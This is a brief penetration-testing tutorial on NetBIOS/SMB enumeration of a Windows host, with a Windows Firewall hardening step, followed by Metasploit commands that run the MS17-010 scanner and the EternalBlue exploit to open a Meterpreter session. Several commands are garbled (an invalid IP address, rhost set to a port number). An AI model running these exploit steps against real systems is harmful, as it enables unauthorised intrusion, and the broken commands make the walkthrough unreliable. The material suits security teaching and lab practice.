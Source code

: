 # NetBIOS/SMB Penetration on Windows

---

### Scanning open port for NetBIOS Enumeration

> You will scan the target network for open TCP and UDP ports and protocol.

```bash
nmap -sT -sU 192.168.1.128
```

#### Ports That Open

### 

## You Can Enumerate The Network Using Nbtstat

```bash
nbtstat -a 192.168.1.128
```

### Hardening The Targeted System

#### Open Windows Firewall Settings

#### Filtering Ports 135-139

> 1. Click on Inbound Rules
> 2. Click NEW RULE
> 3. Click Button for port to create new rule \(TCP or UDP\)
> 4. Click Next
> 5. Click UDP port to apply rule
> 6. Click next
> 7. Chose Block Connection

#### Scan Target System Again

```
nbtstat -a 192.168.1.128
```

#### 

## Exploit Target System Using Metasploit

```
msf > search smb_ms17_010

msf > Use auxiliary/scanner/smb/smb_ms17_010

msf auxiliary(smb_ms17_010) > set rhost 192.168.1.28

msf auxiliary(smb_ms17_010) > set port 445

msf auxiliary(smb_ms17_010) > exploit
```

### Exploit Results

> From the results you will see that the system is vulnerable to the scan
>
> * **rhost** is the target system IP address
> * **lhost** is your system IP address

```
search smb_ms17_010_eternalblue

use exploit/windows/smb/ms17_010_eternalblue

msf exploit(ms17_010_eternalblue) > set rhost 192.168.1.1.128

msf exploit(ms17_010_eternalblue) > set rhost 445

msf exploit(ms17_010_eternalblue) > set lhost 192.168.1.115

msf exploit(ms17_010_eternalblue) > exploit
```



#### Meterpreter Session

> Meterpreter session of targeted system will show information regarding the system















